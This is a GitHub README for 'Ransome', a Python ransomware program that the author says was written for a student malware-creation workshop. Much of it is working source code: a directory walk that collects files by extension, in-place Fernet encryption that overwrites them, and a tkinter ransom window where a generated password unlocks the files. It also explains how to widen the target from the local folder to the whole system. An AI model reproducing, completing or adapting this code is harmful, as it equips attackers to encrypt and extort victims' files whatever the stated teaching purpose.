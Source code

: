  <a target="_blank" href="Language" title="Language"><img src="https://img.shields.io/badge/language-python 3+-GREEN"></a>
# Ransome
![business](https://user-images.githubusercontent.com/63789665/171232030-09379826-65a6-4e62-a3d7-eb4547a9f3ce.png)

Ransomeware is a type of malware that has the ablity to encrypt all the files on the device.
This code is written is python 3 for educational purposes only used in the Spyro event workshop malware creation organised by Engineers Spark FST and Google developers Club ENIT.
The code author is cybereagle2001 and the workshop was animated by the author.

## All requirements

tkinter : to create the graphical design 

os  : needed in file access

cryptography.fernet : the encryption algorithm used by the ransome

string : to generate the key

random : generation of the key

## Code explication 
this part of the code presents the main program. The ransome is made for educational purposes so we made sure that we are going to encrypt specified files only in the directory. 

For root,firs,files in os.walk(".") will allow us to search all the files in the directory and the sub directories if we are going to change '.' ==> '/' or 'C:\' depending on the operation system the ransome is going to encrypt all the system and users files.
```markdown
encrypted_ext=(".mp4",".py",".txt",".docx",".odt",".xlsx",".gif",".png",".jpeg",".pdf")

victim_file=[]
for root,dirs,files in os.walk('.'):
    for file in files:
        if (file =="cyber_ran.py"):
            continue
        else:
            file_path,file_ext= os.path.splitext(root+'/'+file)
            if file_ext in encrypted_ext:
                victim_file.append(root+'/'+file)
```

encrypt(victim_file) is the function that I wrote in order to encrypt the stored files using the fernet algorithm for that we need to generate a key and then use it to encrypt the files. To do so we are going to retrieve the content of the files as binary encrypt it and overright the files. this process is done by this code :

```
def encrypt(victim_file):
    key= Fernet.generate_key()
    for loop in victim_file:
        with open(loop,"rb") as file:
            content= file.read()
        content_enc= Fernet(key).encrypt(content)
        with open(loop,"wb") as file:
            file.write(content_enc)
```

after the encryption process we are going to generate the password that we will need to launch the decryption process to do so I wrote two main functions the first one is password_gen and the second one of decrypt.

Decrypt is going to reverse the encryption algorithm and use the fernet key to decrypt the files content.

the password generator is going to generate a random string. That string will allow the ransome to identify if the victim paied the ransome or not. If the input is equivalent to the value of the generated password it will start the decryption process and this is made by this code 

```
def decrypt(password,key):
    def button_command(password,key):
        key1=entry1.get()
        i=0
        if (key1 == password):
            for loop in victim_file:
                with open(loop,"rb") as file:
                    content= file.read()
                content_dec= Fernet(key).decrypt(content)
                with open(loop,"wb") as file:
                    file.write(content_dec)
            print("good boy you did well!!")
            quit()
        else:
             print("you are hacked!! don't play dump")

    root = Tk()
    root.title("ALL files are encrypted")
    root.geometry('400x200')
    entry1= Entry(root,width=200)
    entry1.pack()
    Button(root,text="decrypt",command=lambda:button_command(password,key)).pack()
    root.mainloop()

def password_gen(N=50):
	return ''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(N))
```

## Licence 
[MIT](https://choosealicense.com/licenses/mit/) ©cybereagle2001

Original author : cybereagle2001 

